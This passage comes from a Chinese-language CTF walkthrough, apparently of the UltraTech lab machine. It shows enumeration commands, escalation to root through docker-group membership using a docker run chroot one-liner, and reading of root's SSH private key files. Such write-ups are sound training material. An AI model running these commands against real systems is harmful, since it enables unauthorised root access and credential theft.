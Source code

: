 可以看到，使用用户“r00t”的凭据，我们可以访问该机器。此外，从`sudo -l`的输出可以清楚地看出，我们不能使用`sudo`特权运行任何命令。因此，我们可以做的下一件事是执行进一步的枚举，以找到任何可能的向量，通过它我们可以将我们的特权提升到`root`。

# 权限提升

我们可以运行一些基本命令来获取关于系统和当前用户的信息:

```
r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ uname -a
Linux ultratech-prod 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
r00t@ultratech-prod:~$ cat /proc/version
Linux version 4.15.0-46-generic (buildd@lgw01-amd64-038) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

这里我们得到了执行权限提升的潜在向量，即用户在“docker”组中的存在。我们可以利用这一点将我们的权限提升到`root`，这只是一个简单的命令:

```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
# cd root
# cd .ssh
# ls -la
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
```

因此，基本上`docker`命令可以分解为:

![](img/1ab0f2ee5c2b6d27db530d61e267e059.png)
